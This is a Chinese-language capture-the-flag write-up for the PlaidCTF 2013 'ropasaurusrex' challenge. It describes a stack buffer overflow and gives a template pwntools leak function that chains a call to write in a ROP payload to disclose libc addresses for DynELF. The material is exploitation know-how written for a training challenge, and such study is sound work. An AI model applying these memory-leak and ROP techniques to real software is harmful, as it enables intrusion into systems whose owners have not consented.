 二、PlaidCTF 2013 ropasaurusrex
-----------------------------

1. 常规 checksec，只开启了一个 NX，不能使用 shellcode，IDA 分析漏洞，程序的 sub_80483F4() 函数栈溢出：

```
#注释头
 
char buf; // [esp+10h] [ebp-88h]
------------------------------------------------------
return read(0, &buf, 0x100u);

```

有 write 函数，没有 libc，got 表里没有 system，也没有 int 80h/syscall，没有 binsh 字符串。

2. 这种情况下我们就可以使用 DynELF 来 leaklibc，进而获取 system 函数在内存中的地址，然后就可以再用 read 函数来读取字符串。

3. 首先编写 leak 函数，也就是需要调用 write 函数打印需要泄露的地址

常规的 leak 函数模式：

```
#注释头
 
def leak(addr):
    payload = ''
    payload += 'A'*n #padding
    payload += p32(write_addr) #调用write
    payload += p32(start_addr) #write返回到start
    payload += p32(1) #write第一个参数fd
    payload += p32(addr) #write第二个参数buf
    payload += p32(8) #write第三个参数size
    io.sendline(payload)
    content = io.recv()[:8] #接受内容读取通过write打印的地址
    print("%#x -> %s" %(addr, (content or '').encode('hex')))
    #这里打印不需要也可以，只是可以打印出来让我们看到write打印了什么地址，基本都打印了
    return content
    #这里return的conten有很多地址，需要通过之后的DynELF来lookup对应的地址

```

这里的 write 函数可以换成 put 或者 printf 函数，但是如果改变了，那么后面的参数个数也需要发生改变，对应打印函数的形式：

```
#注释头
 
ssize_t write(int fd,const void *buf,size_t count);
int puts(const char *s)
int printf(const char*format, ......)；

```

具体请参考：

[https://www.anquanke.com/post/id/85129](https://www.anquanke.com/post/id/85129)
